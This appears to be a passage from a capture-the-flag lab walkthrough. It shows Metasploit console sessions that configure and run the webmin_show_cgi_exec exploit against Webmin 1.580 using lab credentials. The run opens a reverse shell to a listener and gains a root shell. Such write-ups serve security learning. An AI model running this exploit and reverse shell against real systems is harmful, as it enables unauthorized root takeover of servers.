 ````console
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580
````

````console
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set LHOST 10.10.10.1
LHOST => 10.10.10.1
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set RPORT 10000
RPORT => 10000
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47
username => agent47
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD videogamer124
PASSWORD => videogamer124
````

Now everything is set we can run it.

````console
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > run

[*] Started reverse TCP double handler on 10.10.10.1:4444 
[*] Attempting to login...
[+] Authentication successfully
[+] Authentication successfully
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 7Fb8i0Az0Jq2XHQd;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "7Fb8i0Az0Jq2XHQd\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.10.10.1:4444 -> 10.10.105.217:50912) at 2022-08-17 17:43:52 +0100

id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
````
